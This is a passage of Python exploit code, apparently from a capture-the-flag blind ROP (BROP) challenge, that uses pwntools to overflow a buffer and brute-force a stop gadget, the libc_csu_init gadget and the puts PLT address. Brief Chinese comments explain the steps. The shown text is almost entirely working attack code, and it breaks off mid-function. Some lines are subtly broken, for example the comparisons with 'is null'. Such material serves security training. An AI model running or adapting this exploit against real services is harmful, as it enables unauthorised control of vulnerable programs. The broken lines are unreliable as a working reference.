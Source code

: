 ```python
            if b"Hello" in sh.recvall(timeout=1):
                log.success("We found a stop gadget is " + hex(old_return_addr + maybe_low_byte))
                sh.close()
                return (old_return_addr + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
        finally:
            sh.close()

stop_gadget_addr = 0x4007d6 # 0x4007d6
if stop_gadget_addr is null:
    stop_gadget_addr = Find_stop_gadget(old_return_addr & 0xFF0000, padding_length)


# 寻找 BROP gadget
def Find_brop_gadget(libc_csu_init_address_maybe, padding_length, stop_gadget):
    maybe_low_byte = 0x0000
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            payload  = b'A' * padding_length    # junk + probe + trap + trap + trap + trap + trap + trap + stop + trap + trap + trap + trap + trap + trap...
            payload += p64(libc_csu_init_address_maybe + maybe_low_byte) 
            payload += p64(0) * 6
            payload += p64(stop_gadget) + p64(0) * 10
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if b"Hello" in sh.recvall(timeout=1):
                log.success("We found a brop gadget is " + hex(libc_csu_init_address_maybe + maybe_low_byte))
                return (libc_csu_init_address_maybe + maybe_low_byte)
            maybe_low_byte = maybe_low_byte + 1
        except:
            pass
            sh.close()

brop_gadget_addr = 0x40095a # 0x40095a
if brop_gadget_addr is null:
    brop_gadget_addr = Find_brop_gadget(old_return_addr & 0xFF0000, padding_length, stop_gadget_addr)
    

# 寻找PLT表中的puts函数
def Find_func_plt(func_plt_maybe, padding_length, stop_gadget, brop_gadget):
    maybe_low_byte = 0x0600
    while True:
        try:
            sh = get_sh()
            sh.recvuntil(b"Please tell me:")
            payload  = b'A' * padding_length 
            payload += p64(brop_gadget + 9) # pop rdi;ret; 这里只需要一个参数是因为想找到puts函数来输出
            payload += p64(0x400000)
            payload += p64(func_plt_maybe + maybe_low_byte)
            payload += p64(stop_gadget)
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if b"ELF" in sh.recvall(timeout=1):     # 没有ASLR的基地址一定是0x400000，并且该地址的内容为"ELF"
                log.success(
                    "We found a function plt address is " + hex(func_plt_maybe + maybe_low_byte)
```
